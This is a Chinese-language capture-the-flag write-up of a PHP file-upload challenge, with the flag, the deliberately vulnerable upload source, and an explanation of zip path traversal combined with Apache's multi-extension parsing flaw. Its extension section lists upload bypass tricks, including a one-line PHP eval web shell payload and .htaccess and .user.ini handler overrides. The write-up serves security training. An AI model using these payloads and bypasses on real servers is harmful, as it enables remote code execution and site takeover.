


## flag
n1book{ThisIsUpLoadToPicfl4g}

## 思路
1. 访问环境，php文件上传源码解析题，用户可以上传zip、jpg、gif、png文件。其中zip文件中不能包含php文件
2. 上传成功的jpg、gif、png文件会被放入一个随机数构造的文件目录中，需要使用目录穿越  
```php
$temp_dir = $dir.md5(time(). rand(1000,9999));
......
if($ext == 'zip'){
    ......
    check_dir($dir);
    exit('上传成功!');
}else{
    move_uploaded_file($file['tmp_name'], $temp_dir.'/'.$file['name']);
    check_dir($dir);
    exit('上传成功!');
```
3. check_dir函数的功能是确保上传的文件后缀名为jpg、gif、png，如果是其他后缀名则删除文件。   
   - `opendir`创建文件目录句柄
   - `readdir`返回目录中下一个文件的文件名
   - `move_uploaded_file ( string $filename , string $destination ) : bool`检查并确保由 filename 指定的文件是合法的上传文件（即通过 PHP 的 HTTP POST 上传机制所上传的）。如果文件合法，则将其移动为由 destination 指定的文件。
4. 这道题的攻击点已经出来了。
   - 压缩包文件目录穿越
   - Apache php文件解析漏洞，xxx.php.xxx被解析为php
5. 原始123456789123456789.php文件内容为  
```php
<?php
echo phpinfo();
?>
```
6. 通过010editor构造恶意压缩包，这里需要注意修改后的文件名长度与修改前一致，否则解压会报错，这里改为`/../../jason07.php.xxx`  
<center></center>
7. 上传[压缩包](./scripts/123456789123456789.zip)，访问`jason07.php.xxx`，得到flag，不过这道题没有把phpinfo()解析出来。  
<center></center>


## 总结
文件上传主要是上传恶意php，该文件要能被访问并且被服务器解析，本题考点在于
- 压缩包文件目录穿越，压缩包内文件命名为  
  `/../../xxx.php.xxx`
- Apache php解析漏洞  
  `xxx.php.xxx`被当成`xxx.php`解析
- php源码分析  
### 进一步的扩宽一下难度
- 服务器端可能会校验文件格式，例如严格限制jpg的格式，可能需要用到[jpg_payload脚本](./scripts/jpg_payload.php)在jpg中插入恶意php载荷
- IIS6 `*.asp`文件夹下所有文件被当做脚本进行解析，例如`x.asp,a.jpg`
- php可执行后缀  
  `php3、php5、phtml、pht`   
  其中phtml的载荷可以为`<script language="php">eval($_POST['shell']);</script>`    
  如果需要绕过图片限制，可以在载荷前一行加`GIF`
- asp可执行后缀  
  `cdx、cer、asa`
- jsp可执行后缀  
  `jspx`
- 将.htacess或.user.ini文件伪造成图片文件格式上传，使得含恶意载荷的jpg文件可以被解析
    - `.htacess`，让含test字符的文件当做php解析
    ```
    GIF
    <FilesMatch "test">
    SetHandler application/x-httpd-php
    </FilesMatch>
    ```
    - `.user.ini`，表示执行该目录的php文件时都会包含test.jpg，一般需要先上传含有恶意php载荷的图片test.jpg，然后请求该目录下的*.php文件，使用antsword连接。
    ```
    GIF
    auto_prepend_file=test.jpg
    ```

## 源代码
```php
<?php
header("Content-Type:text/html; charset=utf-8");
// 每5分钟会清除一次目录下上传的文件
require_once('pclzip.lib.php');

if(!$_FILES){

        echo '

<!DOCTYPE html>
<html lang="zh">
<head>
    <meta charset="UTF-8" />
    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
    <meta http-equiv="X-UA-Compatible" content="ie=edge" />
    <title>文件上传章节练习题</title>
    <link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/bootstrap@3.3.7/dist/css/bootstrap.min.css" integrity="sha384-BVYiiSIFeK1dGmJRAkycuHAHRg32OmUcww7on3RYdg4Va+PmSTsz/K68vbdEjh4u" crossorigin="anonymous">
    <style type="text/css">
        .login-box{
            margin-top: 100px;
            height: 500px;
            border: 1px solid #000;
        }
        body{
            background: white;
        }
        .btn1{
            width: 200px;
        }
        .d1{
            display: block;
            height: 400px;
        }
    </style>
</head>
<body>
    <div class="container">
        <div class="login-box col-md-12">
        <form class="form-horizontal" method="post" enctype="multipart/form-data" >
            <h1>文件上传章节练习题</h1>
            <hr />
            <div class="form-group">
                <label class="col-sm-2 control-label">选择文件：</label>
                <div class="input-group col-sm-10">
                    <div >
                    <label for="">
                        <input type="file" name="file" />
                    </label>
                    </div>
                </div>
            </div>
                
        <div class="col-sm-8  text-right">
            <input type="submit" class="btn btn-success text-right btn1" />
        </div>
        </form>
        </div>
    </div>
</body>
</html>
';

    show_source(__FILE__);
}else{
    $file = $_FILES['file'];

    if(!$file){
        exit("请勿上传空文件");
    }
    $name = $file['name'];

    $dir = 'upload/';
    $ext = strtolower(substr(strrchr($name, '.'), 1));
    $path = $dir.$name;

    function check_dir($dir){
        $handle = opendir($dir);
        while(($f = readdir($handle)) !== false){
            if(!in_array($f, array('.', '..'))){
                if(is_dir($dir.$f)){
                    check_dir($dir.$f.'/');
                 }else{
                    $ext = strtolower(substr(strrchr($f, '.'), 1));
                    if(!in_array($ext, array('jpg', 'gif', 'png'))){
                        unlink($dir.$f);
                    }
                }
            
            }
        }
    }

    if(!is_dir($dir)){
        mkdir($dir);
    }

    $temp_dir = $dir.md5(time(). rand(1000,9999));
    if(!is_dir($temp_dir)){
        mkdir($temp_dir);
    }

    if(in_array($ext, array('zip', 'jpg', 'gif', 'png'))){
        if($ext == 'zip'){
            $archive = new PclZip($file['tmp_name']);
            foreach($archive->listContent() as $value){
                $filename = $value["filename"];
                if(preg_match('/\.php$/', $filename)){
                     exit("压缩包内不允许含有php文件!");
                 }
            }
            if ($archive->extract(PCLZIP_OPT_PATH, $temp_dir, PCLZIP_OPT_REPLACE_NEWER) == 0) {
                check_dir($dir);
                   exit("解压失败");
            }

            check_dir($dir);
            exit('上传成功!');
        }else{
            move_uploaded_file($file['tmp_name'], $temp_dir.'/'.$file['name']);
            check_dir($dir);
            exit('上传成功!');
        }
    }else{
        exit('仅允许上传zip、jpg、gif、png文件!');
    }
}
```
